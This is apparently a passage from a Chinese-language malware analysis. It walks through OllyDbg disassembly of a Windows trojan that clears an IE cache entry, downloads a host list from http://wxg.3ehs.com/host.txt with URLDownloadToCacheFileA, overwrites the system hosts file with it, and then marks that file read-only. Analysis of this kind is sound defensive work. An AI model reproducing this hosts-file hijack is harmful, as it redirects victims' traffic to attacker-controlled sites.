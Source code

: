   00400D69  |.  56            push    esi                                         ; /BufSize
  00400D6A  |.  50            push    eax                                         ; |Buffer
  00400D6B  |.  FF15 68044000 call    dword ptr [<&KERNEL32.GetSystemDirectoryA>] ; \GetSystemDirectoryA
  00400D71  |.  8D45 EC       lea     eax, dword ptr [ebp-14]
  00400D74  |.  50            push    eax                                         ; /src
  00400D75  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]                    ; |
  00400D7B  |.  50            push    eax                                         ; |dest
  00400D7C  |.  E8 4F090000   call    <JMP.&MSVCRT.STRCAT>                        ; \strcat
  堆栈 [00A0FD90]=00A0FDA0 (00A0FDA0), ASCII "C:\WINDOWS\system32\drivers\etc\hosts"
  ecx=00A0FFB4

  清除 IE 中有关 http://wxg.3ehs.com/host.txt 的缓存。

  00400D89  |.  50            push    eax
  00400D8A  |.  FF15 18054000 call    dword ptr [<&WININET.DeleteUrlCacheEntry>]  ;  wininet.DeleteUrlCacheEntryA

   DeleteUrlCacheEntry("http://wxg.3ehs.com/host.txt");

  00400D90  |.  53            push    ebx
  00400D91  |.  53            push    ebx
  00400D92  |.  8D85 ECFDFFFF lea     eax, dword ptr [ebp-214]
  00400D98  |.  68 04010000   push    104
  00400D9D  |.  50            push    eax
  00400D9E  |.  8D85 ECFEFFFF lea     eax, dword ptr [ebp-114]
  00400DA4  |.  50            push    eax
  00400DA5  |.  53            push    ebx
  00400DA6  |.  E8 C3080000   call    <JMP.&URLMON.URLDOWNLOADTOCACHEFILEA>

  00A0FD80   00000000
  00A0FD84   00A0FEA0  ASCII "http://wxg.3ehs.com/host.txt"
  00A0FD88   00A0FDA0  ASCII "C:\WINDOWS\system32\drivers\etc\hosts"
  00A0FD8C   00000104
  00A0FD90   00000000
  00A0FD94   00000000

  通过 API 函数 URLDownloadToCacheFileA 将 http://wxg.3ehs.com/host.txt 中含有下载列表的文件 host.txt 下载到 IE 缓冲区

  修改 C:\WINDOWS\system32\drivers\etc 下的 hosts 文件的属性为只读。